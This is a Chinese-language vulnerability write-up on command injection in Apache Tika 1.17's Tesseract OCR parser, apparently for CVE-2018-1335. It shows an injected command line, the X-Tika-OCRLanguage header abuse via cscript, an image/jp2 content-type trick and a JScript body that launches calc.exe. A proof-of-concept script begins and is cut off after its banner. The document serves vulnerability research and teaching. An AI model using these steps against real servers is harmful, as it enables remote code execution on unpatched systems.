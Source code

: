 你可能會想說 TesseractPath 預設是啥 ? 你可以在 `C:\Users\dkri3c1\Desktop\CS_Project_\tika-1.17\tika-1.17\tika-parsers\src\main\java\org\apache\tika\parser\ocr\TesseractOCRConfig.java` 找到他的設定

![image](https://hackmd.io/_uploads/rJOSjgNoxx.png)



Header Key 的地方對應到 `config.getTesseractPath()`，那你可能會想說，他不是會變成 `calc.exe input.png output.txt -l eng -psm 3 txt -c preserve_interword_spaces=1` 像是這樣的東西嗎?

其實本質上來說，無傷大雅，因為你在開這個檔案的時候，其實他只是把後面的東西當作參數在執行而已

以 notepad.exe 舉例


![image](https://hackmd.io/_uploads/HyMUv1Vigx.png)

顯然來說，單純開一個 notepad.exe 並不能為我們做到什麼，我們現在要做的是想辦法開啟檔案並且做到任意執行

既然我們都做到 command injection 了，為啥不直接用 `&` `|` 呢? 簡單來說就是我們跑 system 的 java function `ProcessBuilder` 並不會解析這些東西，所以要另想方法

![image](https://hackmd.io/_uploads/HkKRhy4sge.png)


往會看 code 會發現，我們可以控制的不是只有 `getTesseractPath()` 這個東西，還有 `config.language` 以及 `config.getPageSegMode`，我們先把程式跑起來看看

```bash=
"calc.exe"tesseract.exe C:UsersTestAppDataLocalTempapache-tika-3299124493942985299.tmp C:UsersTestAppDataLocalTempapache-tika-7317860646082338953.tmp -l eng -psm 1 txt -c preserve_interword_spaces=0
```

可以讓我們的可控參數 language `"X-Tika-OCRLanguage"` 用 cscript 的 `E:engine` 選用引擎來執行指令

如果你好奇這一個 Header 哪來的話，可以在下面找到

https://github.com/vaites/php-apache-tika/issues/31

![image](https://hackmd.io/_uploads/HJ2gbg4sex.png)

基本上就大功告成了，唯一需要注意的一點是，為了讓他被當成 OCR (圖片)來解析，所以我們需要在 Content-Type 的地方設定他是 `image/jp2`

![image](https://hackmd.io/_uploads/HyitMZNsxe.png)

並且在 body 的部分填上 cscript

```cmd=
var Exp = WScript.CreateObject("WScript.Shell")
var oExec = Exp.Run('cmd /c calc.exe')
```

附上 POC

Banner.py
```py=
import time

banner = '''░█████╗░██╗░░░██╗███████╗░░░░░░██████╗░░█████╗░░░███╗░░░█████╗░░░░░░░░░███╗░░██████╗░███████╗███████╗
██╔══██╗██║░░░██║██╔════╝░░░░░░╚════██╗██╔══██╗░████║░░██╔══██╗░░░░░░░████║░░╚════██╗██╔════╝██╔════╝
██║░░╚═╝╚██╗░██╔╝█████╗░░█████╗░░███╔═╝██║░░██║██╔██║░░╚█████╔╝█████╗██╔██║░░░█████╔╝██████╗░██████╗░
██║░░██╗░╚████╔╝░██╔══╝░░╚════╝██╔══╝░░██║░░██║╚═╝██║░░██╔══██╗╚════╝╚═╝██║░░░╚═══██╗╚════██╗╚════██╗
╚█████╔╝░░╚██╔╝░░███████╗░░░░░░███████╗╚█████╔╝███████╗╚█████╔╝░░░░░░███████╗██████╔╝██████╔╝██████╔╝
░╚════╝░░░░╚═╝░░░╚══════╝░░░░░░╚══════╝░╚════╝░╚══════╝░╚════╝░░░░░░░╚══════╝╚═════╝░╚═════╝░╚═════╝░


```